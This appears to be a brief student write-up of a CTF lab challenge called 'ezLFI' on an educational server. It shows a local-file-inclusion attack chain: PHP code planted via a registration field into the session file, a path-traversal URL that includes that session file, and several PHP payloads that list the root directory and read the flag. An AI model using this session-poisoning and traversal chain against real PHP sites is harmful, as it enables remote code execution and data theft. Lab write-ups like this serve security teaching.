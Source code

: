 # Lab0x03 Writeup

## ezLFI
1. https://edu-ctf.csie.org:10157/?action=register
post data: user=<?php system("ls /"); ?>

<?php eval('system(ls /);');
flag-66666666666
2. sessid = 7tmue803aqp8nrqvscbu5kufl4
3. finally https://edu-ctf.csie.org:10157/?action=module&m=../../../../var/lib/php/session/sess_7tmue803aqp8nrqvscbu5kufl4

<?php system('echo $(ls /);');?>
<?php eval('echo `ls /`;');?>
<?php eval('echo `cat /flag-66666666666`;');?>